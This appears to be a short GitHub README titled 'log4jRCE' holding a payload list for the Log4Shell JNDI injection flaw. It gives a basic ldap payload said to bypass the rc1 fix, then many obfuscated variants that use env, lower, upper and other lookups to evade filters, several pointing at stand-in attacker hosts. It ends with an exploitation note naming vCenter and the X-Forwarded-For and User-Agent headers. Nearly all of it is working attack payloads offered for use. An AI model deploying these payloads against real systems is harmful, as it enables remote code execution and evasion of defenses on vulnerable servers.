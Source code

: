 # #log4jRCE

```
1.绕过rc1版本
${jndi:ldap://127.0.0.1:1389/ badClassName}

2.绕过方式
${${env:aaaa:-j}${env:aaaa:-n}${env:aaaa:-d}${env:aaaa:-i}:${env:aaaa:-l}${env:aaaa:-d}${env:aaaa:-a}${env:aaaa:-p}${env:aaaa:-:}//
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attacker.com/a}
${jndi:${lower:l}${lower:d}a${lower:p}://loc${upper:a}lhost:1389/rce}
jn${env::-}di: 
jn${date:}di${date:':'} 
j${k8s:k5:-ND}i${sd:k5:-:} 
j${main:\k5:-Nd}i${spring:k5:-:} 
j${sys:k5:-nD}${lower:i${web:k5:-:}} 
j${::-nD}i${::-:} 
j${EnV:K5:-nD}i: 
j${loWer:Nd}i${uPper::}

3.利用
vcenter: 
X-Forwarded-For: ${xx}

User-Agent: 


```

![https://github.com/Nan3r/log4j/blob/main/README.assets/2.png](README.assets/2.jpg)

![https://github.com/Nan3r/log4j/blob/main/README.assets/1.png](README.assets/1.png)
